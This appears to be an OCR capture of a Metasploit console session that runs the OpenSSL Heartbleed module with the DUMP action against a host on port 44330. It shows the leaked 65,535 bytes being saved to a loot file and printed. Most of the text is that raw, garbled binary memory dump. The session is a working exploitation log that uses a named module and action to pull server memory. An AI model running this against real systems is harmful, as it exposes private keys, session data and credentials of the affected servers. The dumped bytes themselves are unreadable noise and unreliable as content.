 ```
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set action DUMP
action => DUMP
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 222.222.2.222:44330   - Heartbeat response with leak, 65535 bytes
[+] 222.222.2.222:44330   - Heartbeat data stored in /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > cat /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin
[*] exec: cat /root/.msf4/loot/20191012213447_default_222.222.2.222_openssl.heartble_500776.bin

���]�O���g�hE�_.[�MT��b��΋k�f��
�"�!98����5����
��	��32��ED��/�A���
                        �      �@�DA8u-�	b�,��Y'L��Մ�ձ3��-�bt����`�;ˋz���4���
�`���w��Vnvv�x���'�`���Y$�H                                                         |��k	E��ޞ=A�Gx�A��
                           a��f�D�9I��W�ϋ3/�V�s�D%����|������Z;��1FF���)�vC���ny7m��N1v/�&�Y�T@��e�3�D�ʗ�O��pc��,�y��q�G�g��z��`^�s�Mk*����Ou���E�ぜ���l]�%<,�@��S�зN�	"�����"���ct{uj��Ц�*N���a\{�5vRNW��-4S�^0b�e��7���=r���J>D��)V)C�m�y�-�F,�~VMD�E
�s��'����EVY�@�����H9*�[�]}�n1㺟N�'�p��0���x�j���a�k�F�W$�@]�lS`\���x�U�Wk�kƑ�o�%�Ё��B��-v��9��!)ᗙ�>�Ty�oXJ�
31��R��S0Q0U�]�v%C��#��*�B|c
K0U#0��]�v%C��#��*�B|c
K0U�0�0 *�H��
���^��#
       怅W7��G�w�n�*wFcR�~����l8�C*]��@��g+;=�|8�b߬3

1�ŏmA�,�s��l1v�d����m�i^�������y�}����5�2��'��s�M����G �U�2[������N�^p](������*\��3(ic�U��{�
           E�DMV~�,F�-�y�m�C)V)×D>J���o�Ȼ����U���#�S�`E� ܚ|���l��᨝-�
                                                                    �ok{�΄�C2��
                                                                               �g���N1A����B/w��!��)�U���B/w�����)�U�#�%��\ �rV���A#��_
                                                                                                                                       �m&r�]�J�
;���/_��
���rD���WMZt0���*ʟ����J�bB�U

|�ƭ���6���,s�d��7�s�8$,�I|��'�7ײ
                                �X��j�%����uj}��Y�a'�Ks��V��c.���vn:
B���c��q)GL�y0T�a&aZ�*q/#��������)�:յ�-����ހYi�R3�rb)��
�����5E����X?3w`>�"��p�퓱�Φ����q�/�}=9����'�PuJ�]�ȝ?l�]�cR$����-m���H,�D^��Ș{��5x��oS���-�ݴ;�v��]��I@��Á�K7H��
                                                                                                              i�,�ut�~�
                                                                                                                       ߃��u*n��w����.�fU���	R�X��y��^��|�0��udh����F������>��-��y�n�Š�윀�1��P�����W
                                                ��Ii�����/�|��+�l)Nv�c�3�U7��Xud@�o��z�(Lk ��0R|7���5�j^%����'L;S,"�����5	ӕv�;{q)�W�
                                                                                                                                          zJX��>j�;��f��t��DQ�Ez/�Rݜ13
1�ŏmA�,�s����)!��9��v-��B���Ь�%�o���k�kW�U�x���\`Sl�]@�$W�F�k�a���j�x���0��p�'�N���1n�}]�[d*9H�����@�YVE����'��s�
           E�DMV~�,F�-�y�m�C)V)×D>J���o�Ȼ����U���#�S�`E� ܚ|���l��᨝-�
                                                                    �ok{�΄�C2��
                                                                               �g���N1A����B/w��q��)�U!�Ɠ)�U���)�`0��)�U�@ɓ)�U!`��)�U!@��)�U!@��)�U���B/w��1��5E����X?3w`>�"��p�퓱�Φ����q�/�}=9����'�PuJ�]�ȝ?l�]�cR$����-m���H,�D^��Ș{��5x��oS���-�ݴq���)�U!��)�U��8NE<���GGΡ��)L��ңf�(+c��������'B<uΓU�PiS6�K��tgF�Z
       ������
�`dXQ4��
```